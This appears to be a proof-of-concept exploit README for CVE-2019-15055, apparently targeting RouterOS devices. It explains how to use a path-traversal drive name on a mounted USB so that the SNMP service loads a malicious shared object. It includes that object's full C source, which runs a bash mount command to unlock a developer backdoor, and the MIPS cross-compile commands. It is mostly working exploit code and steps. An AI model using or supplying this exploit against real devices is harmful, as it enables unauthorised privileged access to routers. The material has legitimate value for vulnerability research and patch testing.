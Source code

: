 # CVE-2019-15055

This vulnerability requires a USB or drive be mounted and visible in System -> Disk. Assuming you have control of the USB create the directory structure "/nova/lib/snmp/" and store lol_mips.so in the snmp subdirectory. Note that the shared object is compiled as mips big endian. If your target uses a different architecture than you'll need to recompile it.

Next change the drive's name to "../../../ram/pckg/snmp_xploit" and enable (or restart) the SNMP process. This should cause SNMP to load the shared object on the USB. The shared object simply does the following:

```sh
albinolobster@ubuntu:~/routeros/poc/cve_2019_15055/shared_obj$ cat snmp_exec.c 
#include <unistd.h>
#include <stdlib.h>

void __attribute__((constructor)) lol(void)
{
    int fork_result = fork();
    if (fork_result == 0)
    {
        execl("/bin/bash", "bash", "-c", "mkdir /pckg/option; mount -o bind /boot/ /pckg/option", (char *) 0);
        exit(0);
    }
}

extern void autorun(void)
{
    // do nothin' I guess?
    return; 
}
```

So you should now be able to login to through the devel backdoor.

## Compiling the shared object

```
albinolobster@ubuntu:~/routeros/poc/cve_2019_15055/shared_obj$ ~/cross-compiler-mips/bin/mips-gcc -c -fpic snmp_exec.c
albinolobster@ubuntu:~/routeros/poc/cve_2019_15055/shared_obj$ ~/cross-compiler-mips/bin/mips-gcc -shared -s -o lol_mips.so snmp_exec.o
```

